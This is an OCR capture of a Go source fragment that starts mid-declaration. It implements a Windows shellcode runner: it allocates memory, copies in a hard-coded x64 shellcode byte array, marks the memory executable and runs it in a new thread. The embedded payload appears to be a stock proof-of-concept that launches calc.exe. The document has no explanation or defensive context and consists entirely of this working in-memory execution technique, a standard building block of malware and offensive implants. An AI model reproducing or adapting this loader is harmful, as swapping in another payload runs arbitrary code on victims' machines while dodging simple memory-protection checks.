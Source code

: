```go  
	rtlMoveMemory       = ntdll.NewProc("RtlMoveMemory")
)

const (
	MEM_COMMIT        = 0x00001000
	MEM_RESERVE       = 0x00002000
	PAGE_READWRITE    = 0x04
	PAGE_EXECUTE_READ = 0x20
	INFINITE          = 0xFFFFFFFF
)

func executeShellcode(shellcode []byte) {
	// Allocate memory for the shellcode
	mem, _, _ := virtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE)

	// Copy the shellcode to the allocated memory
	rtlMoveMemory.Call(mem, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))

	// Change memory protection to executable
	var oldProtect uint32
	virtualProtect.Call(mem, uintptr(len(shellcode)), PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&oldProtect)))

	// Create a new thread to execute the shellcode
	thread, _, _ := createThread.Call(0, 0, mem, 0, 0, 0)

	// Wait for the thread to finish
	waitForSingleObject.Call(thread, uintptr(INFINITE))
}

func main() {
	shellcode := []byte{
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
		0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
		0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
		0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
		0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
		0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
		0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
		0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
		0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
		0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
		0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
		0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
		0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
		0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
		0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
		0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
		0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
		0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
		0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
		0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
		0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00,
	}

	executeShellcode(shellcode)
}
```  
